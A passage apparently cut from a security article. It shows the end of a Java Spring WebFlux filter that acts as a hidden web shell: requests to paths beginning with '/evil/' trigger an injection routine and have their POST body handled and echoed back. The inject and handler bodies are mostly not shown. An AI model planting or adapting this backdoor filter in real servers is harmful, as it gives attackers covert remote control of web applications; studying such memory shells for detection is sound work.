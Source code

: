 ```bash
                        sink.complete();
                    } catch (IOException ignored) {}
                });

                exchange.getResponse().getHeaders().setContentType(MediaType.TEXT_PLAIN);
                return response;
            } catch (IOException ignored) {}
        }
        return Flux.empty();
    }

    @Override
    public Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        if (exchange.getRequest().getURI().getPath().startsWith("/evil/")) {
            doInject();
            Flux<DataBuffer> response = getPost(exchange);
            ServerHttpResponse serverHttpResponse = exchange.getResponse();
            serverHttpResponse.getHeaders().setContentType(MediaType.TEXT_PLAIN);
            return serverHttpResponse.writeWith(response);
        } else {
            return chain.filter(exchange);
        }
    }
}
```

[![](assets/1708482732-0ef8b6cd6745e025ffdd17e2b1cc5303.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003502-569f8008-c832-1.jpeg)
